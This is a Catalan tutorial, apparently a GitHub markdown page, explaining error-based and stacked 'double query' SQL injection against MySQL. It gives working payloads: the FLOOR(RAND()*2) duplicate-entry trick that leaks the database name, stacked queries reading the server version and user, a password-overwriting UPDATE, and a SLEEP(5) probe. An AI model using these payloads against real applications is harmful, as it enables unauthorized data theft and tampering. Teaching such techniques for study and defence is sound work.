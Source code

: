 # **SQL Injection Error-Based i Double Query Injection**

## **1️⃣ SQL Injection Error-Based**
L’**Error-Based SQL Injection** és una tècnica d’atac que aprofita els missatges d’error generats per la base de dades per obtenir informació sensible.

### **📌 Payload d’exemple (MySQL)**
```sql
SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT DATABASE()),FLOOR(RAND()*2)) a 
FROM information_schema.tables GROUP BY a)b;
```

### **🛠 Explicació pas a pas**
1. **`SELECT DATABASE()`** → Retorna el nom de la base de dades actual.
2. **`RAND()*2`** → Genera un número aleatori entre 0 i 2.
3. **`FLOOR(RAND()*2)`** → Arrodoneix aquest número a 0 o 1.
4. **`CONCAT((SELECT DATABASE()), FLOOR(RAND()*2))`** → Uneix el nom de la base de dades amb el número aleatori.
5. **`COUNT(*)`** → Compta les files de `information_schema.tables` (on es guarden les metadades de totes les taules).
6. **`GROUP BY a`** → Provoca un error perquè `RAND()` pot generar el mateix número per diferents files, causant un **error de duplicat**.
7. **`SELECT 1 FROM (...) b`** → Força l’execució de la consulta dins d’una subconsulta.

### **⚠️ Error generat**
```
ERROR 1062 (23000): Duplicate entry 'dbname1' for key 1
```
📢 **Aquest error revela el nom de la base de dades!** Això permet a l’atacant obtenir informació crítica sense necessitar accés directe a les dades.

---

## **2️⃣ Double Query Injection (2a consulta per obtenir informació)**
### **🔍 Què és?**
El **Double Query Injection** és una tècnica avançada que aprofita la segona consulta en una injecció per obtenir informació de la base de dades.

🛑 **El principi clau:**  
En moltes aplicacions, si una consulta retorna un error però la segona s’executa, l’atacant pot aprofitar aquest comportament per obtenir dades.

---

### **📌 Exemple de Double Query Injection**
#### **Cas 1: Provocant un error a la primera consulta i obtenint dades a la segona**
```sql
SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT database()),FLOOR(RAND()*2))a FROM information_schema.tables GROUP BY a)b; 
SELECT @@version;
```
**Explicació:**
1️⃣ **Primera consulta:** Genera un error de "Duplicate entry", que no impedeix que es processi la segona consulta.  
2️⃣ **Segona consulta:** Retorna la versió del servidor MySQL (`@@version`), exposant informació crítica.

---

#### **Cas 2: Amb `UPDATE` o `INSERT`**
Si una aplicació permet modificar dades, es pot injectar una segona consulta per extreure informació:

```sql
UPDATE users SET password='newpass' WHERE id=1; SELECT user();
```
📢 **Si l’aplicació és vulnerable**, aquesta segona consulta (`SELECT user();`) es pot executar i mostrar l’usuari connectat.

---

#### **Cas 3: Exploiting `SLEEP()` per comprovar vulnerabilitat**
```sql
1; SELECT SLEEP(5);
```
📌 Si el servidor triga **5 segons a respondre**, vol dir que la injecció ha tingut èxit! Això confirma que l’aplicació és vulnerable.

---